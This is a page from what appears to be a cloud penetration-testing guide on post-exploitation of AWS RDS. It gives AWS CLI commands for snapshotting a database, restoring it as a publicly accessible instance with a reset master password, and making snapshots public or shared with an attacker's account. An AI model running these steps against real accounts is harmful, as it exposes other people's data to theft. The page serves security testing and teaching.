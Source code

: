 # AWS - RDS Post Exploitation

## RDS

For more information check:

[[../aws-services/aws-relational-database-rds-enum.md]]

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

If the attacker has enough permissions, he could make a **DB publicly accessible** by creating a snapshot of the DB, and then a publicly accessible DB from the snapshot.

```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
    --db-instance-identifier <db-id> \
    --db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
    --db-instance-identifier "new-db-not-malicious" \
    --db-snapshot-identifier <scapshotId> \
    --db-subnet-group-name <db subnet group> \
    --publicly-accessible \
    --vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
    --db-instance-identifier "new-db-not-malicious" \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# Connect to the new DB after a few mins
```

### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

An attacker with these permissions could **create an snapshot of a DB** and make it **publicly** **available**. Then, he could just create in his own account a DB from that snapshot.

If the attacker **doesn't have the `rds:CreateDBSnapshot`**, he still could make **other** created snapshots **public**.

```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
